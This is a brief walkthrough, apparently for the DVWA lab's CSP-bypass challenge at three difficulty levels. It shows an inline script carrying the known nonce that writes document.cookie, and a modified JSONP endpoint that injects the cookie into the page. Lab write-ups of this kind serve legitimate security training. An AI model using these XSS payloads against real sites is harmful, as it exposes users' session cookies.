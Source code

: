 # CSP Bypass

## low

`https://pastebin.com/raw/WDaZpsXq`

There's been a security measure to prevent pastebin contents from getting
utilized by XSS. `pastebin.com` now responses with two additional headers, making this challenge impossible:

```
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
```

If you really wanna try, intercept pastebin's response and delete `X-Content-Type-Options`.

## medium

`unsafe-inline` allows any inline script whose `nonce` is the same as the one in
CSP (to prove they were generated by server admin who has access to the site).

nonce = `base64('Never going to give you up')`

```
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">document.write(document.cookie);</script>
```

## high

scenario of untrusted local files

modify `/vulnerabilities/csp/source/jsonp.php`


```php
//$outp = array ("answer" => "15");
//echo $callback . "(".json_encode($outp).")";

echo "document.getElementById(\"answer\").innerHTML = document.cookie;";
```
